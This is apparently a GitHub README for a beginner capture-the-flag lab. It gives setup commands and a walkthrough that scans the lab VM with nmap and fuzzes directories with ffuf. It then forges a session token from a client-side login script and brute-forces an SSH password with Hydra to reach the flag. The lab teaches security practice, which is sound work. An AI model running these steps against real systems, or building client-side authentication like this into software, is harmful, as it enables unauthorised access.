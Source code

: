 # ctf
Beginner level Capture the Flag (user and root flag included)

<h2>On your VM that will be running the CTF, run the following commands:</h2>

```
wget https://raw.githubusercontent.com/npmaharaj1/ctf/main/ctf_build.sh
chmod u+x ctf_build.sh
sudo ./ctf_build.sh
```

<h2>On your host machine or VM (whatever you are going to be hacking the CTF with), run the following commands:</h2>

```
wget https://raw.githubusercontent.com/npmaharaj1/ctf/main/attack_build.sh
chmod u+x attack_build.sh
sudo ./attack_build.sh
```
<h2>Walkthrough</h2>
Note that the <i>{ip address}</i> signifies the ip address of the server, please don't write {192.168.whatever}. <br>
<br>
To startup off this CTF, we are given an ip address. In cybersecurity, IP Addresses can lead to a veriety of exploits such as open ports or unmaintained programs. To start off we can do some basic enumeration to check for open ports. This will use nmap (network mapper) to scan the top 1000 ports of the ip address and print out all the information into the file scan.initial.

```
nmap -A {ip address} -oN scan.initial
```

When looking at the results, we can see that there are open ports, namely:
22: for OpenSSH
80: for an Apache2 web server (it also seems to be a test page based on the child results)

Let's open our browser and navigate to that ip address to have a look
```
http://{ip address}:80
```

Like the results said, it seems to be a test page
Apache test pages aren't normally hackable since it's just a webpage, but what if there are other directories in the webserver. We can find out using a tool called FFUF. The following command will tell fuff to look at the website and use a wordlist to look at each instance. Let's run: 
```
ffuf -u http://{ip address}:80/FUZZ -w common.txt
```

Looking at the results there seems to be an admin page and the test page we just saw: `index.html`. Let's have a look at the admin page
```
http://{ip address}:80/admin
``` 

Of course, modern admin pages have a login form and to break it we need to know the password. However, what if we use inspect element to look at the underlying code. There is a possability that we fill find client side authentication.
```
ctrl + shift + I and head over to the debugger tab
```

If we expand admin/login, there's a login.js file! Let's see what's in there.

We were correct, there is client side authentication because of the:
```
    if (username == "admin" && password == "bbb2c5e63d2ef893106fdd0d797aa97a") {
        localStorage.setItem("sessionToken", "a1fa59e79bba1a38bb0684d3298c9ddd");
        window.location.replace("../../admin");
    } else {
        incorrectPassword.style.display = "block";
    }
```

Now, putting in the password is reasonable but it is more fun to put our own session token. To do this we need to open the Storage tab in the inspect element menu and go to the local storage tab. We then press the menu that has an ip address. On chromium and firefox based browsers, there should be a plus button on the top right of the menu. If we tap that we can enter our own local storage values.

Let's enter in the data so it looks like this
```
________________________________________________________
|     Key      |                 Value                  |
|--------------|----------------------------------------|
| sessionToken |   a1fa59e79bba1a38bb0684d3298c9ddd     |
|______________|________________________________________|
```

When we refresh the page, we should be taken to the admin page:
which we will find a message probably from a system admin.
He says that a username on the server is `stevenirate` and that the password is in rockyou.txt

If we look back to our nmap scan we can see that there is port 22 that allows the ssh protocol. Therefore, what if we try to login to the server, using `stevenirate` as the username and attempt to brute force the password?

For this, Hydra appears to be the best solution.
Hydra is a tool that specialises in brute forcing and ssh is one of it's specialties.

Open up the terminal and enter the following command. 
```
hydra -l stevenirate -P ./passwd_list.txt {ip address} ssh -I
```
where:
- `hydra` is the command we're using
- `-l` specifies that we are entering the login
    - `stevenirate` is the username we are supplying
- `-P` specifies that we are entering a text file full of possible passwords (the modified rockyou.txt)
    - `./passwd_list.txt` is the modified rockyou.txt file that we are inputing
- `{ip address}` is where we are entering the ip address of the server
- `ssh` tells hydra that we want to attack an ssh protocol port
- `-I` means that we don't want to resume a previous task

After some time we should we some green text telling us the credentials
`[22][ssh] host: {ip address}    login: stevenirate     password: georgia`
Now that we have the username and password of the machine, let's try these credentials
By entering the following command, we can see if we can gain access
```
ssh stevenirate@{ip address}
yes
georgia
```
We will be greeted by an ubuntu message.
If we have a look at our current working directory
```
ls
```
There is a flag called `flag.txt`
Let's have a look in it.
```
cat flag.txt
```
and there is our flag.

<h2>Congratulations. You win</h2>

